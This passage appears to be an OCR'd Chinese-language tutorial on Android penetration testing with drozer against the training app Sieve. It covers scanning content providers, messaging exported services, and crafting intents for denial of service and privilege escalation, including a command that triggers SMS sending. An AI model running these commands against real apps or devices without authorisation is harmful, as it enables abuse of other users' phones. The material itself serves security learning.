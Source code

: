 		Scanning com.mwr.example.sieve...
		Not Vulnerable:
		content://com.mwr.example.sieve.DBContentProvider/
		content://com.mwr.example.sieve.DBContentProvider/Keys
		content://com.mwr.example.sieve.DBContentProvider/Passwords/
		content://com.mwr.example.sieve.DBContentProvider/Keys/
		content://com.mwr.example.sieve.DBContentProvider/Passwords
		content://com.mwr.example.sieve.DBContentProvider
		Vulnerable Providers:
		content://com.mwr.example.sieve.FileBackupProvider/
		content://com.mwr.example.sieve.FileBackupProvider
6. 和service交互  
1) 获取service信息  
`dz> run app.service.info -a com.mwr.example.sieve`

		Package: com.mwr.example.sieve
		com.mwr.example.sieve.AuthService
		Permission: null
		com.mwr.example.sieve.CryptoService
		Permission: null
两个service都是exported。  
2)service 模块  
`dz> cd app  
 dz#app> cd service  
 dz#app.service> ls`
 		
		app.service.info   Get information about exported services                      
		app.service.send   Send a Message to a service, and display the reply           
		app.service.start  Start Service                                                
		app.service.stop   Stop Service 
查看具体使用  
`dz#app.service> help app.service.send`
		
		usage: run app.service.send [-h] [--msg what arg1 arg2] [--extra type key value]
		[--no-response] [--timeout TIMEOUT] [--bundle-as-obj]
		package component
向某个服务发送消息  
`dz#app.service> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService --msg 1 5 3`

		Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.CryptoService:
		what: 111111
		arg1: 0
 		arg2: 0
		Empty

7. intent组件触发（拒绝服务，权限提升）  
利用intent对组件的触发一般有两类漏洞，一类拒绝服务，一类权限提升。拒绝服务危害性较低，主要影响应用服务质量；权限提升会使得没有该权限的应用可以通过intent触发拥有该权限的应用，帮助其完成越权行为。  
1) 查看暴露的广播组件信息    
`run app.broadcast.info -a com.package.name`　　获取broadcast receivers信息  
`run app.broadcast.send --component 包名 --action android.intent.action.XXX`  
2) 尝试拒绝服务攻击检测，向广播组件发送不完整intent（空action或空extras）  
`run app.broadcast.send --component 包名 ReceiverName`  
`run app.broadcast.send --action android.intent.action.XXX`  
3) 尝试权限提升  
权限提升其实和拒绝服务很类似，只不过目的变成构造更为完整、更能满足程序逻辑的intent。由于activity一般多于用户交互有关，所以基 于intent的权限提升更多针对broadcast receiver和service。与drozer相关的权限提升工具，可以参考IntentFuzzer，其结合了drozer以及hook技术，采用 feedback策略进行fuzzing。以下仅仅列举drozer发送intent的命令：  
（1）获取service详情  
`run app.service.info -a com.mwr.example.sieve`  
  不使用drozer启动service  
`am startservice –n 包名/service名`  
（2）权限提升    
`run app.service.start --action com.test.vulnerability.SEND_SMS --extra string dest 11111 --extra string text 1111 --extra string OP SEND_SMS`